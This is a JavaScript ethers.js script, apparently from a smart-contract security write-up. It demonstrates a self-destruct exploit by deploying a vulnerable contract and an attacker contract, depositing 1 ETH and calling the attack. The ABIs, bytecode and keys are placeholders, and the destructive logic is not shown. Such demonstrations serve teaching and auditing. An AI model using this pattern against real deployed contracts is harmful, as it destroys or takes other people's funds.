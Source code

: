 ##### Exploit Script (JavaScript with ethers.js)
```javascript
const { ethers } = require("ethers");

async function demonstrateSelfDestructExploit() {
    // Assume we have a provider and signer set up
    const provider = new ethers.providers.JsonRpcProvider("YOUR_RPC_URL");
    const wallet = new ethers.Wallet("YOUR_PRIVATE_KEY", provider);
    
    // Deploy the vulnerable contract
    const vulnerableContractFactory = new ethers.ContractFactory(vulnerableAbi, vulnerableBytecode, wallet);
    const vulnerableContract = await vulnerableContractFactory.deploy();
    await vulnerableContract.deployed();
    
    console.log("Vulnerable contract deployed at:", vulnerableContract.address);
    
    // Deposit some funds
    const depositTx = await vulnerableContract.deposit({ value: ethers.utils.parseEther("1.0") });
    await depositTx.wait();
    console.log("Deposited 1 ETH to vulnerable contract");
    
    // Check contract balance
    let balance = await provider.getBalance(vulnerableContract.address);
    console.log("Contract balance before attack:", ethers.utils.formatEther(balance));
    
    // Deploy attacker contract
    const attackerFactory = new ethers.ContractFactory(attackerAbi, attackerBytecode, wallet);
    const attacker = await attackerFactory.deploy(vulnerableContract.address);
    await attacker.deployed();
    
    console.log("Attacker contract deployed at:", attacker.address);
    
    // Execute the attack - anyone can do this!
    const attackTx = await attacker.attack();
    await attackTx.wait();
    
    console.log("Attack executed!");
    
    // Check contract balance after attack
    try {
        balance = await provider.getBalance(vulnerableContract.address);
        console.log("Contract balance after attack:", ethers.utils.formatEther(balance));
    } catch (error) {
        console.log("Contract no longer exists - attack successful!");
    }
}

// Run the exploit
demonstrateSelfDestructExploit().catch(console.error);
```
